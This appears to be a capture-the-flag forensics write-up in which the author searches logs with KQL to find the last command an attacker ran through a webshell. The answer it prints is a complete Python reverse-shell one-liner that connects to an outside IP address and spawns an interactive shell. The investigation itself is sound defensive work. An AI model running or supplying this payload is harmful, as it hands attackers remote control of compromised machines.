

# Blue's Clues 6/8: Discovery
> Is that... a webshell?

> We can see the commands that were executed by the attacker. However, we don't see any command hinting at the creation of the rogue user in gitlab. There must be an intermediary step.

> What is the last command executed by the webshell?

> Flag format: <decoded_command> Not case sensitive, but keep special chars.

> Example: ls -latr

## About the Challenge
We need to find the last command executed by webshell

## How to Solve?
By using the same KQL syntax, I searched the logs one by one and check when the attacker stop accessing the webshell. And we found the last command was reverse shell command



```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("158.69.62.65",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```